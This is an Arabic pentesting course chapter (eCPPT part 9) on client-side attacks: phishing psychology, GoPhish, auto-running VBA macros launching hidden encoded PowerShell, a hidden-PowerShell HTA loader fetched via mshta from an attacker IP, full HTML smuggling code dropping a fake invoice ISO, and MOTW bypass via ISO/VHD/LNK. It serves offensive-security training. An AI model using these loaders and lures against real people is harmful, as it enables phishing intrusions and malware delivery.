



عندما تكون البنية التحتية الخارجية للشركة محصنة تمامًا بأحدث الجدران النارية وأنظمة منع التسلل، ولا توجد أي خدمات ويب مكشوفة تحتوي على ثغرات، يصبح الطريق الأسهل والأكثر نجاحًا لاختراق المؤسسة هو استهداف **العنصر البشري** والأنظمة الداخلية عبر **الهجمات من جانب العميل (Client-Side Attacks)**.

في هذا الجزء التاسع من مسار **eCPPT**، سنفكك المنهجية الكاملة لبناء هجمات التصيد الاحتيالي المتقدمة، وتجهيز البنية التحتية عبر **GoPhish**، وتطوير الحمولات الخبيثة (Weaponization) مثل ماكرو مايكروسوفت أوفيس (**VBA Macros**)، وتطبيقات **HTA**، وتقنية **HTML Smuggling** الحديثة لتجاوز بوابات التفتيش الأمني وعلامة **Mark-of-the-Web (MOTW)**.

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 8: اختبار اختراق تطبيقات الويب (Web Pentesting)](/posts/ecppt-v3-part-8-web-application-penetration-testing/) | **الجزء 9: الهجمات من جانب العميل (Client-Side Attacks)** | [الجزء 10: باورشيل الهجومي وتجاوز حماية AMSI](/posts/ecppt-v3-part-10-powershell-for-pentesters/) |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **أفضلية الهجمات من جانب العميل**: تبدأ هذه الهجمات باتصال صادر (Outbound Connection) من داخل شبكة الضحية إلى خادم المهاجم، مما يلتف تمامًا على قواعد الجدران النارية التي تحظر الاتصالات الواردة.
* **المبادئ السيكولوجية الستة لروبرت سيالديني**: يعتمد الإيقاع بالضحايا على استغلال محفزات بشرية مثبتة علميًا: السلطة (Authority)، الندرة (Scarcity)، الإلحاح (Urgency)، الإثبات الاجتماعي (Social Proof)، والاتساق (Consistency).
* **تسليح مستندات أوفيس (VBA Macro Weaponization)**: استخدام دوال التشغيل التلقائي `AutoOpen()` و `Document_Open()` واستدعاء واجهات نظام ويندوز (Win32 APIs) لتشغيل قنوات اتصال C2 في الذاكرة مع تعمية الكود عبر أدوات مثل **MacroPack**.
* **تهريب الشيفرات (HTML Smuggling)**: تقنية حديثة لتوليد الحمولات الخبيثة ديناميكيًا داخل متصفح الضحية باستخدام كائنات JavaScript Blobs، مما يمنع بوابات البريد والجدران النارية من رؤية الملف الحقيقي أثناء عبوره للشبكة.
* **تجاوز علامة الويب (MOTW Bypass)**: وضع الحمولات داخل ملفات حاوية غير مفعل بها التدفق البديل للبيانات (`Zone.Identifier`) مثل ملفات ISO و VHD و LNK لتجاوز تحذيرات SmartScreen وحظر ماكرو أوفيس الافتراضي.

---

## 1. دورة حياة هجمات Client-Side (End-to-End Execution Pipeline)

يوضح المخطط المتكامل مسار الهجوم منذ مرحلة الاستطلاع حتى الحصول على موطئ قدم داخل شبكة المؤسسة:



---

## 2. سيكولوجيا الهندسة الاجتماعية والاستطلاع (Social Engineering Psychology)

تعتمد سيناريوهات التصيد الناجحة على المبادئ النفسية التي وضعها الدكتور روبرت سيالديني:

1. **السلطة (Authority)**: انتحال صفة الإدارة العليا، قسم تقنية المعلومات (IT Support)، أو الجهات الحكومية والتنظيمية.
2. **الإلحاح والندرة (Urgency & Scarcity)**: صياغة رسائل تدعي وجوب تغيير كلمة المرور خلال 15 دقيقة لتفادي إيقاف الحساب.
3. **المعاملة بالمثل (Reciprocity)**: تقديم خدمة أو تقرير مجاني يدفع الضحية للتعاون التلقائي.
4. **الاتساق والمطابقة (Consistency & Social Proof)**: الإشارة إلى أن زملاء آخرين في نفس القسم قاموا بالفعل بتحديث بياناتهم.

### الاستطلاع الرقمي للموظفين (Target Profiling):
```bash
# استخراج كافة الحسابات والبريد الإلكتروني لنطاق الشركة
theHarvester -d targetcompany.com -b linkedin,google -l 200

# فحص البيانات الوصفية (Metadata) لملفات PDF التي نشرتها المؤسسة لمعرفة إصدارات البرمجيات وأسماء المستخدمين
exiftool -Creator -Author -Producer *.pdf
```

---

## 3. نشر خوادم التصيد الاحترافية عبر GoPhish

تعد **GoPhish** المنصة القياسية المفتوحة المصدر لإدارة حملات التصيد والمحاكاة الأمنية:



### متطلبات أمان البريد لتفادي فلاتر Spam:
* **سجل SPF (Sender Policy Framework)**: تحديد عناوين IP المصرح لها بإرسال البريد نيابة عن النطاق.
* **توقيع DKIM (DomainKeys Identified Mail)**: توقيع رقمي بمفتاح تشفير خاص في ترويسة الرسالة لإثبات عدم التلاعب بها.
* **سياسة DMARC**: توجيه خوادم الاستقبال للتحقق من مطابقة SPF و DKIM وتحديد التصرف في حال الفشل (`p=reject`).

---

## 4. تسليح مستندات أوفيس عبر ماكرو VBA (Macro Weaponization)

تسمح لغة **Visual Basic for Applications (VBA)** بتنفيذ كود برمجي تلقائيًا بمجرد فتح المستند وتمكين المحتوى عبر إجراءات `AutoOpen()` في Word أو `Workbook_Open()` في Excel.

```vba
' مثال تعليمي لماكرو أوفيس يقوم باستدعاء باورشيل في الذاكرة
Sub AutoOpen()
    ExecutePayload
End Sub

Sub Document_Open()
    ExecutePayload
End Sub

Sub ExecutePayload()
    Dim strCommand As String
    Dim objWshShell As Object
    
    ' تجهيز أمر باورشيل للتحميل في الذاكرة
    strCommand = "powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAA...=="
    
    Set objWshShell = CreateObject("Wscript.Shell")
    objWshShell.Run strCommand, 0, False
End Sub
```

### تعمية الكود وتخطي مكافحات الفيروسات عبر MacroPack:
```bash
# استخدام أداة MacroPack لتوليد ماكرو مشفر ومعقد بالكامل
macro_pack.exe --obfuscate -t MSWORD -G document.docm
```

---

## 5. تطبيقات HTML الخبيثة (HTA Attacks)

تطبيقات **HTML Applications (.hta)** هي ملفات نصية تحتوي على كود HTML مدمج مع لغة VBScript أو JScript. الميزة القاتلة لملفات HTA أنها تُنفذ خارج القيود الأمنية للمتصفح (Sandbox-Free) عبر محرك نظام ويندوز الرسمي `mshta.exe` بصلاحيات كاملة للمستخدم المحلي!

```html
<!-- نموذج لملف payload.hta الخبيث -->
<html>
<head>
<script language="VBScript">
    Sub Window_OnLoad
        Dim objShell
        Set objShell = CreateObject("WScript.Shell")
        ' تشغيل حمولة C2 خفية في الخلفية
        objShell.Run "powershell.exe -W Hidden -Enc <Base64_Payload>", 0, False
        ' إغلاق نافذة HTA فورًا لتفادي شكوك المستخدم
        window.close
    End Sub
</script>
</head>
<body>
</body>
</html>
```

يمكن تشغيل هذا الملف عن بعد عبر سطر أوامر ويندوز دون تنزيله يدويًا:
```cmd
mshta.exe http://10.10.14.5/payload.hta
```

---

## 6. تقنية تهريب الشيفرات وتجاوز علامة الويب (HTML Smuggling & MOTW Bypass)

تعتبر تقنية **HTML Smuggling** من أحدث تقنيات تسليم الحمولات التي تعتمد عليها كبرى مجموعات التهديد المتقدمة (APTs):



### كود HTML Smuggling المتكامل:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Secure Document Download</title>
</head>
<body>
    <h2>جاري فك تشفير وتنزيل المستند الآمن... يرجى الانتظار.</h2>
    <script>
        // مصفوفة البايتات المشفرة لملف تنفيذي أو حاوية ISO
        function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array(len);
            for (var i = 0; i < len; i++) {
                bytes[i] = binary_string.charCodeAt(i);
            }
            return bytes.buffer;
        }

        var filePayload = "UEsDBBQAAAAIAAA...[Base64 Payload]...";
        var data = base64ToArrayBuffer(filePayload);
        var blob = new Blob([data], {type: 'application/octet-stream'});
        var fileName = 'Invoice_November_2026.iso';

        var a = document.createElement('a');
        document.body.appendChild(a);
        a.style = 'display: none';
        var url = window.URL.createObjectURL(blob);
        a.href = url;
        a.download = fileName;
        a.click();
        window.URL.revokeObjectURL(url);
    </script>
</body>
</html>
```

### سر استخدام ملفات الحاويات (ISO / VHD) لتجاوز MOTW:
عندما يقوم المتصفح بتنزيل ملف من الإنترنت، يضيف نظام ملفات NTFS علامة تعرف بـ **Mark-of-the-Web** في تدفق بديل للبيانات (`Zone.Identifier=3`). هذه العلامة هي التي تجعل ويندوز يحظر تشغيل ماكرو أوفيس ويعرض تحذيرات SmartScreen الصفراء.

ولكن عند تنزيل ملف **`.iso`** أو **`.vhd`**، فإن نظام ويندوز يسمح بالنقر المزدوج لتركيب القرص الافتراضي (Mount). وتفقد الملفات الموجودة داخل الحاوية علامة MOTW تلقائيًا! بداخل الـ ISO، نضع اختصار **`.lnk`** خبيث يحاكي شكل ملف PDF أو مستند نصي، ولكنه ينفذ أمر باورشيل في الخلفية.

---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **GoPhish Official Framework Documentation**: [https://getgophish.com/documentation/](https://getgophish.com/documentation/)
2. **MacroPack by Sevagas**: أداة هندسة ماكرو أوفيس وتعمية المستندات: [https://github.com/sevagas/macro_pack](https://github.com/sevagas/macro_pack)
3. **Outflank - HTML Smuggling Deep-Dive**: أبحاث متقدمة في تقنيات تهريب الملفات عبر المتصفح.
4. **Robert Cialdini's "Influence: The Psychology of Persuasion"**.
5. **MITRE ATT&CK Matrix**:
   * Technique T1566: Phishing (Spearphishing Attachment, Spearphishing Link)
   * Technique T1204.002: User Execution: Malicious File
   * Technique T1027.006: HTML Smuggling

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
